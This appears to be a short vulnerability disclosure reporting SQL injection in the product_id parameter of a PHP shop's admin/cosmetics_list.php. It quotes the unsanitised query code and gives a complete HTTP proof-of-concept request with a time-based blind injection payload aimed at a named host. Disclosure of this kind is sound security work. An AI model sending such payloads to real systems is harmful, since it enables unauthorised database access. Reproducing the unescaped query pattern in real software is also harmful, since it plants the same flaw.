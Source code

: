 ### Vulnerability file address

`admin/cosmetics_list.php` from line 5,The $product_id parameter is controllable, the parameter product_id can be passed through get, and the $product_id is not protected from sql injection, resulting in sql injection

```php
if(isset($_GET['action']) && $_GET['action']!="" && $_GET['action']=='delete')
{
$product_id=$_GET['product_id'];
///////picture delete/////////
$result=mysqli_query($con,"select product_image from products where product_id='$product_id")
or die("query is incorrect...");
```

### POC

```http
GET /admin/cosmetics_list.php?action=delete&product_id=cccc' AND (SELECT 7939 FROM (SELECT(SLEEP(5)))sdWF)-- xcNg HTTP/1.1
Host: www.onsp.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=acrlvk4ljcqdujn2orbd09in25
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20220729214115057](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220729214115.png)